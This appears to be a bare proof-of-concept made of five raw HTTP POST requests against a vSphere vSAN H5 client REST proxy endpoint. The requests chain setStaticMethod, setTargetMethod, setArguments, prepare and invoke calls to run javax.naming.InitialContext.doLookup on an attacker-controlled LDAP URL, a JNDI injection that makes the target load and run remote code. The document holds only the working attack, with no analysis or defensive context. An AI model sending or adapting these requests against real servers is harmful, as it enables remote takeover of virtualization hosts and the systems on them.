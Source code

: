 ```
POST /ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setStaticMethod HTTP/1.1
Host: 192.168.0.233
Connection: close
Content-Type: application/json
Content-Length: 56

{"methodInput":["javax.naming.InitialContext.doLookup"]}

```

```
POST /ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setTargetMethod HTTP/1.1
Host: 192.168.0.233
Connection: close
Content-Type: application/json
Content-Length: 28

{"methodInput":["doLookup"]}

```

```
POST /ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setArguments HTTP/1.1
Host: 192.168.0.233
Connection: close
Content-Type: application/json
Content-Length: 55

{"methodInput":[["ldap://192.168.0.124:1389/Exploit"]]}

```

```
POST /ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/prepare HTTP/1.1
Host: 192.168.0.233
Connection: close
Content-Type: application/json
Content-Length: 18

{"methodInput":[]}

```

```
POST /ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/invoke HTTP/1.1
Host: 192.168.0.233
Connection: close
Content-Type: application/json
Content-Length: 18

{"methodInput":[]}

```
